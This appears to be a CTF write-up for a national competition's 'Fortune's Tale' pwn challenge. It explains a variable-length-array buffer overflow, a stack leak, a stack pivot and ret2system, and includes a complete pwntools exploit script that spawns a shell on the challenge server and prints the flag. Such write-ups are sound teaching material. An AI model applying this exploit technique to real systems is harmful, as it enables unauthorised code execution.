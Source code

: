 ```yaml
---
title: "CTF ARKAVIDIA 9.0 Qual - Fortune's Tale [WRITE UP]"
tags:
    - Pwn
    - BOF
    - Stack Pivot
    - Ret2system
category: "CTF National"
---
```


This is an National CTF Challenge, i only solve one but might as well make a write up for fun :)

# Pwn - Fortune's Tale

## Introduction 

![alt](/img/CTFNational/ARKAVIDIA_9.0/FortuneTale.png)

## Source Code

```c
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define MAX_SIZE 300


void init()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}


int main()
{
    init();
    bool end = false;
    while (!end)
    {
        int choice;
        printf("1. Take a fortune\n"
               "2. Share a story\n"
               "3. Exit\n"
               "> ");
        scanf("%d%*c", &choice);
        switch (choice)
        {
        case 1:
            system("fortune");
            break;
        case 2: {
            int size;
            printf("Size: ");
            scanf("%d%*c", &size);
            char buf[size % MAX_SIZE]; #VULN
            printf("Text: ");
            read(0, buf, size);
            write(1, buf, size);
        }
        break;
        case 3: {
            end = true;
        }
        break;
        default:
            printf("Invalid choice\n");
        }
    }
}
```

## Summary

Make `buf` size the same or bigger then `MAX_SIZE` to leak stack and make it buffer overflow. Than use stack leak with fill buffer null byte to fix pivoting stack return. 

## Solution

Given a statically linked binary chall using musl libc and all live protection with Partial Relro.

![alt](/img/CTFNational/ARKAVIDIA_9.0/Protection.png)

It can be seen that there are 3 options containing:
- The first option is to run the `system("fortune")` //Not Important
- The second option is to declare a variable with size % `MAX_SIZE`, then read as much size and write to stdout as much size as (just like regular print)
- The third option exits the menu to be used for RIP control

So in option 2 if you provide an input of `MAX_SIZE` which becomes 0, when reading as many as 300 becomes a buffer overflow. For the leak address, you can declare a variable size `MAX_SIZE` so that it becomes a `char buf[0]` and after that is the content of the stack address that can be used as a leak. Next, set the breakpoint after the exit option and analyze what was done.

![alt](/img/CTFNational/ARKAVIDIA_9.0/AfterExit.png)

It can be seen that when choosing the exit option, the instructions to be carried out
Set `eax = 0`
`esp - &[ebp-0xc]`
`pop ecx` (Important where to control the return later)
`pop ebx`
`pop esi`
`pop ebp`
`esp - &[ecx - 4]`
To operate an `eip`, a true `esp` is required. `esp` will change depending on the content of the first `ebp` and `ecx`. To make it easier, i padded until `pop ecx` and set:
`ebp - 0xc = 0`
`ecx - 4 = stack leak`
The padding offset `\x00` is at 44 for `pop ecx` and the rest I spam ret2system to get the shell because in the binary there is a `system` function and the `/bin/sh` string.

### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "20.195.43.216", 8001


pid = None


def gdbscript():
    global pid
    gdbscript = f'''
    init-pwndbg
    set sysroot /proc/{pid}/root
    break *main+377
    break *main+362
    c
    '''.format(**locals())
    return gdbscript


def initialize(argv=[]):
    global pid
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript())
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./chall"]).recvall().strip().decode()
        attach(int(pid), gdbscript=gdbscript(), sysroot=f"/proc/{pid}/root", exe='chall')
        return p
    else:
        return process([exe] + argv)


def exploit():
    global io
    io = initialize()
    with log.progress("Leak address"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        io.sendlineafter("Text: ", "")
        io.recv(1)
        leak = io.recvuntil("1. Take a fortune")
    for i in range(40):
        log.info("Leak %#d: %#x", i+1, u32(leak[i*4:(i+1)*4]))
    stack = u32(leak[34*4:35*4]) << 8
    elf.address = (u32(leak[17*4:18*4]) << 8) - 0x10f00
    log.info("Stack: %#x", stack)
    log.info("ELF: %#x", elf.address)
    with log.progress("BOF to win"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        rop = ROP(elf)
        rop.system(next(elf.search(b"/bin/sh\x00")))
        print(rop.dump())
        payload = rop.chain()
        io.sendlineafter("Text: ", b"\x00"*44 + p32(stack) + p32(0) + p32(0) + p32(0) + payload*10)
    io.sendlineafter("> ", b"3")
    io.sendline(b"cat flag.txt")
    io.interactive()


if __name__ == '__main__':
    exploit()
```

### Flag

`ARKAV{__pwn__no__akachan__}`